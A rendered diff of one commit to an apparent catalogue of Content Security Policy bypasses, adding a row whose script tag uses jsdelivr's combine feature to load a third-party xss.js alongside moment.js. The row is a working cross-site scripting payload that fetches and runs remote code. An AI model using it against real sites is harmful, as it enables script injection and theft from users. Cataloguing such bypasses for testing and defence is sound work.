

Before and after one commit to rcbarnett/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
jsdelivr csp bypass combine

```diff
--- a/data.tsv
+++ b/data.tsv
+row 57: cdn.jsdelivr.net | <script src="https://cdn.jsdelivr.net/combine/gh/moment/moment@develop/min/moment.min.js,gh/renniepak/xss/xss.js"></script>
```
Also changed, not shown: 1 other file.
